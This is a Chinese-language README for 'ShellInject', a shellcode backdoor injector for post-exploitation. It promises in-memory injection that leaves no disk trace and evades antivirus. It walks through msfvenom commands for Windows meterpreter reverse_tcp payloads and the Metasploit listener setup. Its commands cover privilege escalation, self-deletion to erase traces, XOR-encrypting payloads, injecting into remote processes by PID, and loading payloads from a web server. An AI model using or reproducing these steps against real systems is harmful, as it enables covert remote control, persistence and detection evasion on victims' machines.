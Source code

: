 # ShellCode 内存后门注入器

<br>

<div align=center>
  
![logo](https://user-images.githubusercontent.com/52789403/185021479-1816c5bc-2ad4-4d54-beca-08ba5e3b3253.png)

<br>

[![Build status](https://cdn.lyshark.com/archive/LyScript/build.svg)](https://github.com/lyshark/PeView) [![Crowdin](https://cdn.lyshark.com/archive/LyScript/email.svg)](mailto:me@lyshark.com)  [![Download x64dbg](https://cdn.lyshark.com/archive/lydebug/download.svg)](https://github.com/lyshark/lydebug/releases) 

</div>

<br>
<b>版本：1.3</b>
<br>
<b>发布日期：2021-07-05 07:25</b>
<br><br>

ShellInject 是一款通用ShellCode后门注入器，该工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

主要模块与功能:

 - 1.显示可注入进程
 - 2.提升自身权限
 - 3.删除自身痕迹
 - 4.字节数组格式化
 - 5.字节数组格式化
 - 6.文本压缩后异或
 - 7.字符串转为字节数组
 - 8.字节数组加密/解密
 - 9.注入字符串到自身
 - 10.注入字节数组到自身
 - 11.从文本字符串注入
 - 12.注入字符串到远程进程
 - 13.从远程加载字符串并注入
 - 14.从文件读入加密字符串并注入
 - 15.注入加密后的字符串到远程进程

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.116 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为32位与64位，使用时需要与载荷的位数相对应。
```
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.1.116
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

**输出可注入进程:** 列举出目前系统中支持注入的进程，输出参数中最左侧是位数，只可做参考有时不太准确。
```
C:\Users\admin\Desktop> sc32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    468        进程名 => smss.exe
[*] x32 进程PID =>    720        进程名 => csrss.exe
[*] x64 进程PID =>   6888        进程名 => explorer.exe
```

**尝试使用令牌提权:** 该命令可以尝试提升自身权限，不过多半提权会是失败的，但也可以试试。
```C
C:\Users\admin\Desktop> sc32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

**清除自身痕迹:** 当我们完成远程注入后，记得将自身在系统中删除，此时的ShellCode直接在目标进程中安家了，不需要注入器了。
```
C:\Users\admin\Desktop> sc32.exe --delself

[*] 自身已清除
```

**将攻击载荷格式化为一行:** 将Metasploit生成的ShellCode载荷保存为文件，然后使用该命令直接将其格式化为一行。

在保存ShellCode的时候，请不要保存头部的定义部分，只保存以下代码即可。
```
C:\Users\admin\Desktop> sc32.exe Format --path d://shellcode.txt

fce88f0000006089e531d2648b52308b520c8b52148b722831ff0fb74a2631c0ac3c601d630000687773325f54684......
```

**将攻击载荷格式化并写出:** 这个格式化函数作用与上方相同，只不过可以直接写出到文件中，在你只有一个cmd权限时，可以使用。
```
C:\Users\admin\Desktop> sc32.exe FormatFile --path d://shellcode.txt --output d://format.txt

[+] 已储存 => d://format.txt
```

**加密/解密攻击载荷:** 如上我们可以将shellcode压缩为一行，然后可以调用xor命令，对这段shellcode进行加密处理。
```
C:\Users\admin\Desktop> sc32.exe Xor --path d://format.txt --passwd lyshark

% &{{%ssssssus{z&vpr'quw{!vqps{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'
```

**压缩载荷并转字节数组:** 将一段已经压缩过的shellcode代码转换为字节数组格式，这个格式可以直接使用。
```
C:\Users\admin\Desktop> sc32.exe Xchg --input d://format.txt --output d://array.txt

[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt
```

**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
